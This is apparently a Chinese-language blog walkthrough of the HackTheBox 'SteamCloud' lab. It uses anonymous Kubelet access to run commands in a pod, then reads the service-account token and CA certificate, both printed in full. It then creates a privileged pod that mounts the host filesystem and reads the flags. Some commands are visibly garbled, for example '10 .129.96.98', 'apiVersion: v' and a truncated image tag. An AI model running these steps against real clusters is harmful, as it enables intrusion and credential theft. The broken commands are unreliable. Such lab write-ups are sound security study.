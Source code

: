 +++
title = 'HTB SteamCloud'
date = 2024-04-21T14:37:10+08:00
description = 'HackTheBox SteamCloud Walkthrough'
math = false
tags = [
    "Linux",
    "Docker Escape",


]
categories = [
    "HackTheBox"
]
draft = false
+++

[![20240421144115](https://raw.githubusercontent.com/iselt/ImageBed/main/20240421144115.png)](https://app.hackthebox.com/machines/SteamCloud)

## 概要

SteamCloud 是一台简单难度的机器。端口扫描显示它有一堆 Kubernetes 特定端口开放。我们无法枚举 Kubernetes API，因为它需要身份验证。现在，由于 Kubelet 允许匿名访问，我们可以通过枚举 Kubelet 服务提取 K8s 集群中所有 pod 的列表。此外，我们可以进入其中一个 pod 并获取用于身份验证到 Kubernetes API 的密钥。现在我们可以创建和生成一个恶意 pod，然后使用 Kubectl 在 pod 中运行命令来读取 root 标志。

## 技能要求

- 基本 Linux 知识
- 基本 Kubernetes 枚举

## 学到的技能

- 利用 Kubernetes

## 枚举

让我们扫描目标 IP，看看我们是否能发现什么值得注意的东西。

Nmap 显示了几个有趣的端口，SSH 默认端口为 22。Etcd 是一个 Kubernetes 组件，客户端监听端口为 2379，服务器端口为 2380。Kubelet 是一个 Kubernetes 扩展，默认监听端口为 10250，Kubernetes API 监听端口为 8443。让我们看看 Kubernetes API，它在 8443 端口上可访问。

```bash
nmap 10.129.96.98 --max-retries=0 -T4 -p-
```

```bash
curl https://10.129.96.98:8443/ -k
```

输出显示我们无法在未经身份验证的情况下访问主目录，因此让我们继续到监听在 10250 端口上的 Kubelet 服务。

我们能够提取 k8s 集群中的所有 pod。虽然这个服务有几个未记录的 API，但我们可以使用 kubeletctl 与之交互，并找到一种方法进入一个 pod。让我们下载并安装 kubeletctl 二进制文件。

```bash
curl -LO https://github.com/cyberark/kubeletctl/releases/download/v1.7/kubeletctl_linux_amd
chmod a+x ./kubeletctl_linux_amd
mv ./kubeletctl_linux_amd64 /usr/local/bin/kubeletctl
```

让我们看看我们是否可以使用 kubeletctl 获取所有 pod。

```bash
kubeletctl --server 10.129.96.98 pods
```

Pods from Kubelet
| |POD | NAMESPACE | CONTAINERS |
| --- | --- | --- | --- |
| 1|coredns-78fcd69978-zbwf9 | kube-system | coredns |
| 2|nginx | default | nginx |
| 3|etcd-steamcloud | kube-system | etcd |

...

成功返回了所有 pod 的列表。

## 立足点

我们已经知道 Nginx 仅存在于默认命名空间中，不是一个与 Kubernetes 相关的 pod。由于 Kubelet 允许匿名访问，我们可以使用命令 /run、/exec 和 /cri，但 Curl 不会工作，因为它只允许 WebSocket 连接。我们可以使用 Kubeletctl 中的 scan rce 命令来确定我们是否可以在任何 pod 上运行命令。

```bash
kubeletctl --server 10.129.96.98 scan rce
```

Node with pods vulnerable to RCE

|| NODE IP | PODS | NAMESPACE | CONTAINERS | RCE |
| --- | --- | --- | --- | --- | --- |
|1|10.129.96.98 | nginx | default | nginx | + |
|2| | etcd-steamcloud | kube-system | etcd | - |

结果表明可以在 Nginx pod 上执行命令。让我们看看我们是否可以在 Nginx 中运行 id。

```bash
kubeletctl --server 10 .129.96.98 exec "id" -p nginx -c nginx
```

```txt
uid=0(root) gid=0(root) groups=0(root)
```

命令成功执行，但似乎在这个 pod 上没有用户标志。

## 提权

现在我们已经成功在 Nginx pod 中执行了一个命令，让我们看看是否可以访问令牌和证书，以便我们可以创建一个具有更高权限的服务帐户。

```bash
kubeletctl --server 10 .129.96.98 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx
kubeletctl --server 10 .129.96.98 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx
```

```txt
eyJhbGciOiJSUzI1NiIsImtpZCI6ImR5VFdmTTk2WnRENW5QVWRfaXF0SFhTV1VVeG9fWkRGQm9hMTN4VlBzRm
ifQ.eyJhdWQiOlsiaHR0cHM6Ly9rdWJlcm5ldGVzLmRlZmF1bHQuc3ZjLmNsdXN0ZXIubG9jYWwiXSwiZXhwIjo
xNjY4Njk2NzI4LCJpYXQiOjE2MzcxNjA3MjgsImlzcyI6Imh0dHBzOi8va3ViZXJuZXRlcy5kZWZhdWx0LnN2Yy
5jbHVzdGVyLmxvY2FsIiwia3ViZXJuZXRlcy5pbyI6eyJuYW1lc3BhY2UiOiJkZWZhdWx0IiwicG9kIjp7Im5hb
WUiOiJuZ2lueCIsInVpZCI6IjQ5ZWU5NDJiLTIzOGEtNDc4OS1hNWI4LTNiZjEyNDMzZGRkMCJ9LCJzZXJ2aWNl
YWNjb3VudCI6eyJuYW1lIjoiZGVmYXVsdCIsInVpZCI6IjZlZTFmOGM3LWI5ODAtNDQ0Ny04YTQyLWExM2IyOWZ
mOWUwNSJ9LCJ3YXJuYWZ0ZXIiOjE2MzcxNjQzMzV9LCJuYmYiOjE2MzcxNjA3MjgsInN1YiI6InN5c3RlbTpzZX
J2aWNlYWNjb3VudDpkZWZhdWx0OmRlZmF1bHQifQ.fjXI9IRBz1YuJTUu-
H5Sl_vSt36CRdCgaIjpnd04_Lbz03d9v76lNlzAy6X3H8n1mhsw1_lKuJskgad1e8-b7BaqeVrZk8Kj-
7r06xrvYUiIZgJ3AkvR2G-B1Iv1YiyEZymKuDVvBkWLIKgAcl8H0HsJ-
kNdeIF9HjdeLIH0M5nzTyRVymiXp61_QkQ8edFNVb3aH2SqKE1nE9hOXcc5uQ8k1djoCOwN-
kuPrvnxm6MVQ_xsGgPNU_a2vMJk4zQJBXPi2-
LeyDudg2xkjRejcPH6Ia7xrD8jMs0PHYlXk5FBQLZzi2PbIBqHRXIbwvM5JZe5y57OY_UfT3OKQH6Sdw
```

```txt
 -----BEGIN CERTIFICATE-----
MIIDBjCCAe6gAwIBAgIBATANBgkqhkiG9w0BAQsFADAVMRMwEQYDVQQDEwptaW5p
a3ViZUNBMB4XDTIxMTExNTExNDUyOVoXDTMxMTExNDExNDUyOVowFTETMBEGA1UE
AxMKbWluaWt1YmVDQTCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAJ5e
vZyukR7NVz3KtzprRBO0oDPOMBPIhOyHfkhVvn1oRtDVyK5ivlvIYdSFUp6OVJGq
3KTGq/cU3UCULcdAm4fUUNddkhuhGyzSnIy80yu9PAnCWqebi3tMykvpNdV7NqAs
aVh+iRLc7I0w9Bi1zU0DvMIDwvEgSbkpd06+aBKfg3P2zbosHUhGyPw5V5nfGhcE
SKdMLyCaEpmJg8hHIMMqDOthTUoVKXxtLUFlYu7GPspXeWIv2CmH383MslUgx5ak
SI57eh9mzPZXVh3cjcJWejoq00LNLoVdm+bdUzn8pvVIxvzellHzQ/IcpLT/GufE
DAFvCfOndI+AOCKu4jMCAwEAAaNhMF8wDgYDVR0PAQH/BAQDAgKkMB0GA1UdJQQW
MBQGCCsGAQUFBwMCBggrBgEFBQcDATAPBgNVHRMBAf8EBTADAQH/MB0GA1UdDgQW
BBRG6VO+4YmEyjQkvCBG3vYqpneGajANBgkqhkiG9w0BAQsFAAOCAQEAAF2csmso
G+AfEm0U+wAxTNtEkUBdk0seswj7TkQyCwt5qGgX4wctjCo0kwvgmnz5QpWM0t0M
GFoUUWCtIYWCzS/W1QK04PTI9/4IgJOEi584SBCx+/cF4HTSB3+a3dWp9OXd/KP
rkjaZZU2DUZfp4B5brBUmP5h1MTnXJnI+5jcmF7kF6uhE4DgYbMrj7SkG/egT5GX
6cwgh4RhMzdTJxdVCVhjACynSUvg4sllk2YF/0Nda/v3C8gDhUDcO6qyXqfutAGE
MhxgN4lKI0zpxFBTpIwJ3iZemSfh3pY2UqX03ju4TreksGMkX/hZ2NyIMrKDpolD
602eXnhZAL3+dA==
-----END CERTIFICATE-----
```

访问令牌和证书已经成功获取。

我们可以使用这些登录到 Kubectl 并检查我们有什么样的权限。将证书保存在名为 ca.crt 的文件中，并将令牌导出为环境变量。

```bash
export token="eyJhbGciOiJSUz<SNIP>"
```

然后运行以下命令获取 pod 列表。

```bash
kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.96.98:8443 get pods
```

```txt
NAME    READY   STATUS  RESTARTS    AGE
nginx   1/1     Running 2 (42m ago) 44m
```

默认服务帐户似乎具有一些基本权限，因此让我们使用 `auth can-i` 列出所有这些权限。

```bash
kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.96.98:8443 auth can-i --list
```

```txt
Resources                                       Non-Resource URLs  Resource Names  Verbs
selfsubjectaccessreviews.authorization.k8s.io   []                 []              [create]
selfsubjectrulesreviews.authorization.k8s.io    []                 []              [create]
pods                                            []                 []              [get create list]
```

我们可以在默认命名空间中获取、列出和创建 pod。为了创建一个 pod，我们可以使用 Nginx 镜像。让我们创建一个恶意 pod。将以下 YAML 配置保存在名为 f.yaml 的文件中。

```yaml
apiVersion: v
kind: Pod
metadata:
    name: nginxt
    namespace: default
spec:
    containers:
    - name: nginxt
      image: nginx:1.14.
      volumeMounts:
      - mountPath: /root
        name: mount-root-into-mnt
    volumes:
    - name: mount-root-into-mnt
      hostPath:
        path: /
    automountServiceAccountToken: true
    hostNetwork: true
```

我们使用相同的 Nginx 镜像，并在容器中挂载主机文件系统，以便我们可以访问它。一旦我们创建了它，我们可以使用 Kubeletctl 在 pod 中运行命令。让我们尝试应用配置并查看我们新生成的 pod 是否正在运行。

```bash
kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.96.98:8443 apply -f f.yaml
kubectl --token=$token --certificate-authority=ca.crt --server=<https://10.129.96.98:8443> get pods
```

```txt
NAME    READY   STATUS  RESTARTS    AGE
nginx   1/1     Running 4 (35m ago) 81m
nginxt  1/1     Running 0 (0s ago)  9s
```

我们的 pod 状态良好，正在运行。现在我们可以继续获取用户和 root 标志。

```bash
kubeletctl --server 10 .129.96.98 exec "cat /root/home/user/user.txt" -p nginxt -c nginxt
kubeletctl --server 10 .129.96.98 exec "cat /root/root/root.txt" -p nginxt -c nginxt
```
